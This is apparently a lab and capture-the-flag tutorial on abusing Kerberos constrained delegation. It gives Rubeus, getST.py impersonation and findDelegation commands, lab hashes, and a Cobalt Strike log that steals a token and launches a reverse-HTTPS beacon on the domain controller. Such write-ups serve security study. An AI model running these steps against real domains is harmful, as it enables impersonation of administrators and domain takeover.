



> Author : lineeralgebra
{:.prompt-tip}

Constrained Delegation is a security feature in Active Directory that allows a service to impersonate users to access specific downstream services, but with strict limitations on which services can be accessed. Unlike Unconstrained Delegation (which allows access to any service), Constrained Delegation restricts the delegation to explicitly defined services.

Actually its better to analyze Constrained Delegation and **Resource-based Constrained Delegation (Windows Server 2012+) together but lets take only that one first.**

## Constrained Delegation happening why?

Lets understand whats going on here first!!!


Right Click → Properties or double left Left Click and go `Delegation`  part.

1. **Open Active Directory Users and Computers**
2. Enable **Advanced Features** (View → Advanced Features)
3. Find computer **FROY**
4. Right-click → **Properties** → **Delegation** tab
5. Select: **Trust this user for delegation to specified services only**
6. Select: **Use any authentication protocol** (this enables protocol transition)
7. Click **Add** → **Users and Computers**
8. Find and select **VALENOR-DC01** computer
9. Select services: **cifs** (and optionally **host**)
10. Click **OK** → **OK**
    

    

## Constrained Delegation detection

### Constrained Delegation detection with ADsearch.exe

We used that command before and it was pretty simple now we will use same one!!!

First of all lets check for computers

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))"
```


or same for users we just have to change `objectCategory=computer` → `objectCategory=user`

### Constrained Delegation detection with PowerView.py

We used that command before and it was pretty simple now we will use same one!!!

First of all lets connect powerview!!!! and connect as web host 🙂

```bash
powerview lab.local/'nicole.aurea:D4T!w/+aCxH-'@VALENOR-DC01.lab.local --dc-ip 192.168.1.10 --web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234
```

and run

```bash
Get-DomainComputer -TrustedToAuth
```


or with **WEB Interfaces** off course


### Constrained Delegation detection with Bloodhound


## Constrained Delegation Attack

### Constrained Delegation Attack - Windows

Nice now lets do everything we did before!! Verify something first and just GO!!!!!!!

Lets find delegation first with `impacket`

```bash
findDelegation.py  lab.local/fay.lola:'liverpool'
```


we can see too many Delegation here but when `SPN` is exist we can request ticket succesfully.!!!

Lets use **TROY$** → **cifs/DC** cause its most common one and most easy we will touch hardest one

later

- Most important things about Constraied Delegation is **BLOODHOUND CAN DETECT IT AND GIVE US COMMAND BUT NOT RECOMMEND ALWAYS WRITE PAYLOADS AND COMMAND WITH URSELF WITH UR HAND STEP-BY-STEP**


- **Before start attack if u can go `cifs` u can go everywhere**
- **If u can go HTTP,HOST,WWW,etc u can go what u can go**
- **If u wanna use WINRM after attack use HTTP for altservice cause WINRM USE HTTP**

Lets ask TGT first

```bash
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /user:TROY$ /domain:lab.local /ntlm:784dea15d79c7a0201fd133cdf2c9f80 /nowrap
```


now `S4U` time

```bash
execute-assembly /home/elliot/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:VALENOR-DC01 /username:TROY$ /password:Pass1234 /ticket:<ticket_goes_here>
```


and verify it

```bash
execute-assembly /home/elliot/tools/Rubeus.exe klist
```


Steal token and access

```bash
[08/21 22:11:00] beacon> steal_token 2152
[08/21 22:11:00] [*] Tasked beacon to steal token from PID 2152
[08/21 22:11:00] [+] host called home, sent: 12 bytes
[08/21 22:11:00] [+] Impersonated NT AUTHORITY\SYSTEM
[08/21 22:11:23] beacon> cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
[08/21 22:11:23] [*] cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
[08/21 22:11:23] [+] host called home, sent: 49 bytes
[08/21 22:11:41] beacon> jump psexec64 VALENOR-DC01 valenor
[08/21 22:11:41] [*] Tasked beacon to run windows/beacon_https/reverse_https (192.168.1.8:443) on VALENOR-DC01 via Service Control Manager (\\VALENOR-DC01\ADMIN$\b7825c6.exe)
[08/21 22:11:41] [+] host called home, sent: 332054 bytes
[08/21 22:11:41] [-] could not upload file: 64 - ERROR_NETNAME_DELETED
[08/21 22:11:41] [-] Could not start service b7825c6 on VALENOR-DC01: 2
[08/21 22:11:52] beacon> jump psexec64 VALENOR-DC01.lab.local valenor
```

### Constrained Delegation Attack - Linux

Its 5x 10x easier with `impacket` Lets verify first and attack fastly

```bash
getST.py -spn 'cifs/VALENOR-DC01.lab.local' -impersonate 'administrator' -hashes :784dea15d79c7a0201fd133cdf2c9f80 'lab.local/TROY$'
```



we can export it and use nxc 


BOMMMMM!!!! now we can use `--ntds` for example

## Constrained Delegation on CTFs

Im gonna use [HTB-Intelligence](https://app.hackthebox.com/machines/357)  for this part and it will be funny!!

For example lets just say we have owned `svc_init$` and check for privileges


we add to owned and look at privileges and we found we can go **Constrained Delegation** to **DC**



we can see attack vector here but lets see more interesting if we can!!!! cause in this sitation we dont know which service we ill use.

I wanna show u another great tool `SharpView.exe` which is u can find here

https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/SharpView.exe Get-DomainComputer -TrustedToAuth
```

We can run every PowerView comamnd with it.


and now we know where we can go! 

```bash
msds-allowedtodelegateto       : WWW/dc.intelligence.htb
```

We can also find with [`findDelegation.py`](http://finddelegation.py/) tho

```bash
findDelegation.py  'intelligence.htb/svc_int$' -hashes :a9f4721de917a40fd9010ad815708184 
```


Lets attackk!!!!

```bash
getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :a9f4721de917a40fd9010ad815708184 'intelligence.htb/svc_int' 
```


**THAT WAS THE REASON WHY I SHOW THIS MACHINE**

```bash
KRB_AP_ERR_SKEW(Clock skew too great)
```

Thats the reason when our time and machine time dont match so I ALWAYS RECCEOMEND `faketime` for this

```bash
faketime "$(ntpdate -q <domain_name> | cut -d ' ' -f 1,2)" <COMMAND GOES HERE>
```

so

```bash
faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :a9f4721de917a40fd9010ad815708184 'intelligence.htb/svc_int'
```


Thats how we do it.

```bash
➜  Intelligence export KRB5CCNAME=Administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
➜  Intelligence klist
Ticket cache: FILE:Administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
Default principal: Administrator@intelligence.htb

Valid starting       Expires              Service principal
08/22/2025 21:14:01  08/23/2025 07:14:00  cifs/dc.intelligence.htb@INTELLIGENCE.HTB
        renew until 08/23/2025 21:14:00
```

we can export and klist now we can dump everything


